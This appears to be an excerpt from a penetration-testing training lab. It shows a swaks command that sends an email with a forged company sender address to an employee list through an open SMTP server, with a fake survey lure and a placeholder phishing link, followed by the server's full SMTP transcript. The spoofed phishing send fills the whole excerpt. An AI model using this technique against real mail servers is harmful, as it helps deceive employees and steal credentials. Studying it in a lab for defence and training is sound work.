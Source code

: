 ```shell-session
AIceBear@htb[/htb]# swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213

=== Trying 10.10.11.213:25...
=== Connected to 10.10.11.213.
<-  220 mail.localdomain SMTP Mailer ready
 -> EHLO parrot
<-  250-mail.localdomain
<-  250-SIZE 33554432
<-  250-8BITMIME
<-  250-STARTTLS
<-  250-AUTH LOGIN PLAIN CRAM-MD5 CRAM-SHA1
<-  250 HELP
 -> MAIL FROM:<notifications@inlanefreight.com>
<-  250 OK
 -> RCPT TO:<employees@inlanefreight.com>
<-  250 OK
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Thu, 29 Oct 2020 01:36:06 -0400
 -> To: employees@inlanefreight.com
 -> From: notifications@inlanefreight.com
 -> Subject: Company Notification
 -> Message-Id: <20201029013606.775675@parrot>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/
 -> 
 -> 
 -> .
<-  250 OK
 -> QUIT
<-  221 Bye
=== Connection closed with remote host.
```
